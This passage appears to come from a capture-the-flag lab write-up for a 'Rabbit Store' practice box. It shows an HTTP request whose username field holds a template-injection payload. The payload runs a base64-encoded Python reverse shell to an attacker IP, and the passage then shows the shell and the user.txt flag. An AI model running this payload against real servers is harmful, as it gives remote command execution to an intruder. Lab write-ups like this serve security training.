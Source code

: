 Note: I added in front of the 
```
POST /api/fetch_messeges_from_chatbot HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/json
Content-Length: 403
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImFkbWluQG1haWwuY29tIiwic3Vic2NyaXB0aW9uIjoiYWN0aXZlIiwiaWF0IjoxNzQwMzEwMzM2LCJleHAiOjE3NDAzMTM5MzZ9.0VC282y2wYuPx7HUc4YADq-_cjmEq0tWZhm1NvUG_k8
Priority: u=0

{"username": "{self.__init__.__globals__.__builtins__.exec('import os;os.system(\"echo ZXhwb3J0IFJIT1NUPSIxMC4xNC43OC4yMjkiO2V4cG9ydCBSUE9SVD05MDAxO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn | base64 -d | sh\")') }}"}
```

![](/assets/blog/Rabbit-Store/rev.png)

I [stabilized](https://saeed0x1.medium.com/stabilizing-a-reverse-shell-for-interactive-access-a-step-by-step-guide-c5c32f0cb839) the shell and got `user.txt`.

```terminal
azrael@forge:~$ ls
chatbotServer  snap  user.txt
azrael@forge:~$ wc user.txt 
 1  1 33 user.txt
```
